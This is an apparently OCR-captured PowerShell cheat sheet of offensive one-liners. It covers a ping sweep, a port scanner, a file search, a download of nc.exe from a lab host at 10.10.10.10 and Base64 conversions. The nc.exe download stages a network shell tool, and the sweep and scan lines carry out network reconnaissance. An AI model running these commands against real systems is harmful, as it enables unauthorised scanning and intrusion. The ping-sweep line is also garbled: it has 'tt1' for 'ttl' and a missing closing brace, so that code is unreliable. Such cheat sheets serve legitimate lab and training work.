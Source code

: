 # Powershell Scripts

Ping Sweeper
```powershell
1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | Select-String tt1
```

PowerShell Port Scanner
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```

Efficent Single Line Find Command
```powershell
ls -r C:\PATH -file | % {Select-String -path $_ -pattern YOURSTRING}
```

Single Liner Web Client 
```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","c:\nc.exe")
```

Convert a String from ASCII to Base64
```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PS FTW!"))
```

Convert a Base64 String to ASCII
```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("VEVTVE5HU09O"))
```

